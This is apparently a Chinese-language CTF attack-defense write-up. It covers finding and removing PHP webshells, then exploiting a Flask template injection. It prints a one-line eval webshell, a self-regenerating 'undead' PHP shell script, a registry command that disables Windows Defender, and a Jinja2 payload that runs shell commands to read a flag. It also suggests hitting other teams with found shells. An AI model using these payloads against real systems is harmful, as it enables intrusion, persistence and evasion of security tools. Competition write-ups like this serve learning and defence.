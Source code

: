 # 1.\<?php @eval($_POST['cmd']);?>
👴上来就把源码下下来了┗|｀O′|┛ 嗷~~ 很快啊

先用D盾扫一遍
发现如下几个🐎
```
/www/html/public/important.php
<?php @eval($_POST['cmd']);?>
```
这个🐎win10直接给杀了
不愧是他~~个nt~~
直接蚁剑连就彳亍
👴自己的网站要第一时间删除
```
/www/html/public/.undead.php
<?php
set_time_limit(0); 
ignore_user_abort(1);
unlink(__FILE__);
while(1)
{    
    file_put_contents('shell.php','<?php @eval($_POST["password"]);?>');  
    sleep(0);
}
```
这个🐎win10也给杀了就离谱
放一个关win10安全中心的命令
```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /d 1 /t REG_DWORD /f
```
这是一个生成不死🐎的php脚本
第一时间删了就彳亍了
用如下命令直接运行
```
php ./.undead.php
```
~~但👴队当时不会用~~
顺便把info.php删了
~~但👴队当时也不会用~~
[相关漏洞](https://blog.csdn.net/u012206617/article/details/109003244?ops_request_misc=&request_id=&biz_id=102&utm_term=phpinfo%25E6%25BC%258F%25E6%25B4%259E%25E5%2588%25A9%25E7%2594%25A8&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-2-109003244.first_rank_v2_pc_rank_v29)

👴队当时(包括现在)都不会传🐎
白名单直接把/php类/.htaccess扬了
图片🐎传上去也连不了
⑧彳亍
那么，问题来了，为啥不直接把/public扬了？反正也不影响核心功能

###### 总结
手速很重要，找到一句话🐎🐎上删除然后就能打全场
被打就扫D盾，总能扫到一起奇奇怪怪的东西~~比如在根目录藏🐎<?php @eval($_POST['sinon']);?>~~
记得帮别人修🐎，防止其他队反复利用


# 2.模板注入

看👴的源码，有app文件夹，里面是python文件，然后看到“render_template_string”，是模板注入。

然后乱注，⑧彳亍。

学长提醒要触发error才行，直接ip/error/,乱注，⑧彳亍。

学长又提醒，前段有逻辑漏洞，把require删了，能触发error，{{7*7}}，彳亍。

找重载过的类，0试到100多⑧彳亍。搜file,warning.catch...发现有”warnings.catch_warnings“，实验手册有现成循环语句
1 
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls ').read()")}}{% endif %}
{% endfor %}
```
把'ls'改成'cat flag'找到了原题的flag交了⑧彳亍

学长双提醒改成’cat /flag'，彳亍。
###### 总结
学长，🐂